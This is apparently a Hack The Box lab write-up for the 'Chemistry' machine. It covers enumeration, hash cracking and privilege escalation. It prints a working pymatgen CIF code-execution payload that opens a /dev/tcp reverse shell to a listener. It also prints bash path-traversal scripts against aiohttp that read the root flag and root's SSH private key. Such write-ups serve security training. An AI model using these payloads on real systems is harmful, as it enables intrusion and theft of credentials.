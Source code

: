 ```yaml
---
title: Chemistry - HTB
date: 2025-03-03 11:37:57 +0530
categories: [HTB, Linux]
tags: [htb,linux,easy]     # TAG names should always be lowercase
---
```



---
- **IP:** 10.10.11.38
- **OS:** Linux
- **Difficulty:** Easy
- **Link:** [Chemistry - Hack The Box](https://app.hackthebox.com/machines/Chemistry)
- **Tools Used:** nmap, rustscan, netcat, pwncat, sqlite3, DB Browser for SQLite

---
## Overview
Chemistry is an easy machine from Hack The Box which focuses on File Upload, Password Cracking and Privilege Escalation, all of which are based on publicly available exploits.

---
## Enumeration
### Port Scan
The Enumeration process begins with Port Scan using RustScan. The command used is as follows - `rustscan --range=1-65535 -a chemistry.htb -- -A -sC -sV`
The key takeaways from the port scan are:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    syn-ack ttl 63 Werkzeug httpd 3.0.3 (Python 3.9.5)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
```
It is evident that http running on port 5000 should be the target.

### Website
The website on port 5000 has two options - Login and Register.
![Home Page](/assets/images/chemistry01.png){: w="700" h="400" }

A dashboard is presented upon the registration of a new user at http://chemistry.htb:5000/dashboard .
![Dashboard](/assets/images/chemistry02.png){: w="700" h="400" }
A File Upload functionality is observed on the dashboard, and takes files of .cif extension (Crystallographic Information File). A sample file is available and can be downloaded from the link in the web page.

---
## Exploitation
### Initial Foothold
A publicly available Arbitrary Code Execution vulnerability for *pymatgen* library was discovered after googling for "cif vulnerabilities" at this [link](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f). A payload was crafted based on the PoC is present in the article:
```
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy


 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<listener_ip>/<listener_port> 0>&1\'");0,0,0'
_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```
**Note:** Please change the <listener_ip> and <listener_port> according to your environment.
The payload was made with the help of https://www.revshells.com/ .

A listener was set on the attacking machine using `pwncat -nvl <listener_port>`.
The file is uploaded upon which the web page presents two options for the file - View and Delete. The file gets parsed and the payload gets executed when clicked on "View".
![Upload Page](/assets/images/chemistry03.png){: w="700" h="400" }

Successful Reverse Shell
![Reverse Shell](/assets/images/chemistry04.png){: w="700" h="400" }
### User Flag
Since an initial foothold is obtained with the user **app**, the next step is to examine notable files within the */home/app* directory. Analyzing the contents reveals two interesting files, *app.py*, and *database.db* file in the */home/app/instance* folder. Both of these files can be copied to the attacking machine by starting a Python HTTP Server on the target using `python3 -m http.server 9099`. The files are transferred by running `wget http://chemistry.htb:9099/app.py` and `wget http://chemistry.htb:9099/instance/database.db` on the attacking machine.

*app.py* file is the Flask app that is running the Web Application on port 5000. The credentials for the database are available in *app.py* .
![Flask Credentials](/assets/images/chemistry05.png){: w="700" h="400" }

The *app.py* also mentions the type of the hashing algorithm used to store the passwords, which is md5 in this case.  
![Flask Passowrd](/assets/images/chemistry06.png){: w="700" h="400" }

The *database.db* file is viewed with *DB Browser for SQLite* or *sqlite3* command line tool.
The password for one of the users can be cracked using `hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt --force --potfile-disable --remove`, where *hashes.txt* contains all the md5 hashes from the database file separated by new-line.
One of the cracked password is used to logon to ssh and obtain the user flag.

---
## Privilege Escalation
LinPEAS is downloaded and run as the non-root user to check for Privilege Escalation paths. The LinPEAS output indicates an open localhost port 8080.
![Active Ports](/assets/images/chemistry07.png){: w="700" h="400" }

By connecting to this port from the target machine using `curl -vv http://127.0.0.1:8080`, it is observed that a Python server running *aiohttp version 3.9.1* is active.
![AIOHTTP](/assets/images/chemistry08.png){: w="700" h="400" }

A search for **"aiohttp 3.9 vulnerabilities"** led to the discovery of an exploit for a Path Traversal Vulnerability [here](https://github.com/z3rObyte/CVE-2024-23334-PoC). Analyzing the output from the previous `curl` command revealed that stylesheets and JavaScript files were being loaded from the *assets* directory. The proof-of-concept (PoC) exploit was then modified accordingly to read the root flag file, and upon execution, it successfully retrieved the root flag.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/root.txt" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

### Bonus
The private key of the *root* user can also be obtained in a similar manner.
```bash
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/assets/"
file="root/.ssh/id_rsa" # without the first /

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"
    
    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done

```

This key can be copied and stored in a file with the permissions `-rw-------` (600) and can be used to logon as root user on the target using `ssh root@chemistry.htb -i <root.key>`.

---
## References
- [Pymatgen CIF exploit](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [AIOHTTP Path Traversal Exploit](https://github.com/z3rObyte/CVE-2024-23334-PoC)
- [Reverse Shell Generator](https://www.revshells.com/ )

---